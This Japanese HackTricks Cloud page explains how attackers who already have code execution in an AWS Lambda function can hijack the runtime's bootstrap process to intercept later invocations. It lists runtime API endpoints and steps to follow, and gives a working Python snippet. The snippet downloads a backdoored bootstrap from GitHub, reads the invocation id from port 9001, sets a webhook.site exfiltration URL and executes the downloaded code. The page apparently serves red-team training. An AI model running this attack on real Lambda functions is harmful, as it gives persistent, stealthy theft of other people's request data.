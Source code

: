 # AWS - Lambdaリクエストの盗み出し

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見る
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)を**フォロー**する
* **ハッキングトリックを共有するために、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する

</details>

## Lambdaフロー

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**は、**invocations**を**init**プロセスに送信するコンテナ外のプロセスです。
2. initプロセスは、いくつかの興味深いエンドポイントを公開するポート**9001**でリスンします:
* **`/2018-06-01/runtime/invocation/next`** – 次のinvocationイベントを取得
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – invokeのハンドラ応答を返す
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 実行エラーを返す
3. **bootstrap.py**は、initプロセスからinvocationsを取得するループを持ち、ユーザーのコードを処理するためにそれらを呼び出します(**`/next`**)。
4. 最後に、**bootstrap.py**はinitに**response**を送信します。

bootstrapはユーザーコードをモジュールとしてロードするため、ユーザーコードによって実行されるコード実行は実際にはこのプロセスで行われています。

## Lambdaリクエストの盗み出し

この攻撃の目的は、ユーザーコードが脆弱なリクエストを処理する**`bootstrap.py`**プロセス内で悪意のある**`bootstrap.py`**プロセスを実行させることです。これにより、**悪意のあるbootstrap**プロセスがリクエストを処理するためにinitプロセスと**通信を開始**し、**正規**のbootstrapが**罠にかかって**悪意のあるプロセスを実行している間、initプロセスにリクエストを要求しません。

これは、ユーザーコードが正規の**`bootstrap.py`**プロセスによって実行されているため、簡単に達成できます。したがって、攻撃者は次のことができます:

* **現在のinvocationの偽の結果をinitプロセスに送信**して、initがbootstrapプロセスがさらにinvocationsを待っていると思うようにします。
* リクエストを**`/${invoke-id}/response`**に送信する必要があります。
* invoke-idは、正規の**`bootstrap.py`**プロセスのスタックから[**inspect**](https://docs.python.org/3/library/inspect.html) pythonモジュールを使用して取得するか([こちらで提案されているように](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py))、または単に再度**`/2018-06-01/runtime/invocation/next`**にリクエストして取得できます([こちらで提案されているように](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py))。
* 次のinvocationsを処理する悪意のある**`boostrap.py`**を実行します。
* ステルス性を確保するために、Lambda invocationsのパラメータを攻撃者が制御するC2に送信し、その後通常通りリクエストを処理できます。
* この攻撃では、現在のLambda invocationから**`bootstrap.py`**の元のコードを取得し、[**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)から悪意のあるコードを追加して実行するだけで十分です。

### 攻撃手順

1. **RCE**の脆弱性を見つける。
2. **悪意のある** **bootstrap**を生成する（例: [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py)）
3. **悪意のある**bootstrapを**実行**する。

これらのアクションを簡単に実行できます。
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Get invocation id
resp = http.request("GET", "127.0.0.1:9001/2018-06-01/runtime/invocation/next")
invoke_id = resp.headers["Lambda-Runtime-Aws-Request-Id"]

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
詳細については[https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)をチェックしてください。

## 参考文献

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）でAWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>こちら</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスウォッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)で**フォロー**してください。
* **HackTricks**および**HackTricks Cloud**のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
